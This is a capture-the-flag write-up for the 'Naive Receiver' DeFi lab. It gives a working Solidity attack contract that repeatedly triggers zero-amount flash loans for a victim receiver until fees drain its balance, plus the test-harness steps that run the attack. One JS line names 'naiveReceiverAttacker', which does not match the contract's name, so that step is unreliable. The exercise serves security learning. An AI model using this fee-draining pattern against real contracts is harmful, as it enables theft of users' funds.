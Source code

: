 # Naive Receiver

**HINT:** Does the ```NaiveReceiverLenderPool.sol``` contract authenticate the user?

<details>
<summary>Part 1</summary>
<p>

Anyone can use their contract to take out flash loans on the Lender Pool's dime, so we use it to drain them like so:
```
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/math/SafeMath.sol";


interface INaiveReceiverLenderPool {
    function fixedFee() external pure returns (uint256);

    function flashLoan(address payable borrower, uint256 borrowAmount) external;
}

contract naiveReceiverAttack {
    function attack(INaiveReceiverLenderPool pool, address payable receiver) public {
        uint256 FIXED_FEE = pool.fixedFee();
        while (receiver.balance >= FIXED_FEE) {
            pool.flashLoan(receiver, 0);
        }
    }
}
```

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Now go to ```naive-receiver.challenge.js``` and at the top of the file add:
```js
const naiveReceiverAttack = contract.fromArtifact('naiveReceiverAttack');
```
And at ```Exploit``` add:
```js
this.attacker = await naiveReceiverAttacker.new({ from: attacker });
await this.attacker.attack(this.pool.address, this.receiver.address)
```

```sh
npm run naive-receiver.challenge.js
```

</p>
</details>
